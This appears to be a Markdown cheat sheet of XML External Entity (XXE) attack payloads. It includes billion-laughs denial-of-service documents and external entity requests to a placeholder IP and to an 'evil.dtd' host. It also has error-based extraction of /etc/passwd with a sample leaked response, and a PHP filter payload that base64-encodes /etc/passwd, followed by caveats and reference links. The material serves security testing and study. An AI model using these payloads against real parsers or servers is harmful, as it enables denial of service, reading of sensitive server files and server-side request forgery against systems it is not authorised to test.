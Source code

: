 # Payloads:

#### Simple Example

```
<?xml version="1.0"?>
<!DOCTYPE example SYSTEM "example.dtd" [
  <!ENTITY xml "Extensible Markup Language">
]>
<example> &xml; </example>
```

#### DOS

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>

<?xml version="1.0"?>
<!DOCTYPE kaboom [
  <!ENTITY a "aaaaaaaaaaaaaaaaaa...">
]>
<boom>&a;&a;&a;&a;&a;&a;&a;&a;&a;...</boom>

<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol1 "&lol2;">
  <!ENTITY lol2 "&lol1;">
]>
<lolz>&lol1;</lolz>

<?xml version="1.0" ?>
<!DOCTYPE r [
  <!ELEMENT root ANY >
  <!ENTITY external SYSTEM "file:///dev/urandom">  <!-- or /dev/random -->
]>
<root>&external;</root>
```

#### General Entity External Request Test

```
<?xml version="1.0" ?>
<!DOCTYPE r [
  <!ELEMENT root ANY >
  <!ENTITY external SYSTEM "http://x.x.x.x:443/test.txt">
]>
<root>&external;</root>
```

#### Parameter Entity External Request Test

```
# Ref: https://github.com/lsh123/xmlsec/issues/43
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY % external SYSTEM "http://192.168.3.1/evil.dtd"> %external;
]>
```

### Extraction via Error Response

In the case where the web server displays an error, try to dump contents using the error response:

```
# Ref: https://blog.netspi.com/forcing-xxe-reflection-server-error-messages/
<!ENTITY % payload SYSTEM "file:///etc/passwd">
<!ENTITY % param1 '<!ENTITY % external SYSTEM "file:///nothere/%payload;">'> %param1; %external;

# Example response
<?xml version="1.0" encoding="UTF-8"?><root>
<errors>
<errorMessage>java.io.FileNotFoundException: file:///nothere/root:x:0:0:root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
```

### PHP Exfil via base64

```
# Ref: http://www.informit.com/articles/article.aspx?p=24992&seqNum=5
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd" >
```

# Caveats / Gotchas

* Sometimes servers are behind firewalls, so send requests on port 80 by default [1]
* Linefeeds & special characters get in the way, request:
  * `/etc/hostname` [1]
* Load balancers can send different responses [1]

# Useful Links:

* Simple server: `python -m SimpleHTTPServer 8080`
* Definitions:
  * [DTD Overview](http://www.informit.com/articles/article.aspx?p=24992&seqNum=5)
  * [General Entity & Parameter Entity Declarations](http://xmlwriter.net/xml_guide/entity_declaration.shtml)
  * [Attack Overview](https://www.owasp.org/images/5/58/XML_Based_Attacks_-_OWASP.pdf)
  * [Compendium of Known Techniques](https://www.vsecurity.com/download/papers/XMLDTDEntityAttacks.pdf) - details of platform impelementations
  * [Basic how to white paper](https://media.blackhat.com/eu-13/briefings/Osipov/bh-eu-13-XML-data-osipov-wp.pdf)

* Payloads:
  * [20+ DTD Cheat Sheet payloads](https://web-in-security.blogspot.ca/2016/03/xxe-cheat-sheet.html)
  * [~10 XXE Payloads](https://gist.github.com/staaldraad/01415b990939494879b4)

# Future Research:

* TODO:
  * dump info from this document: https://web-in-security.blogspot.ca/2016/03/xxe-cheat-sheet.html
* SSRF - Server Side Request Forgery
* XML Schema Poisoning
* Schema SSRF
* XPath Injection
* NDATA - how does this work?
* Modify Content-Type header: `Content-Type: application/xml`
* Notation -> http://www.informit.com/articles/article.aspx?p=24992&seqNum=5

# References

* [1](https://web-in-security.blogspot.ca/2014/11/detecting-and-exploiting-xxe-in-saml.html)
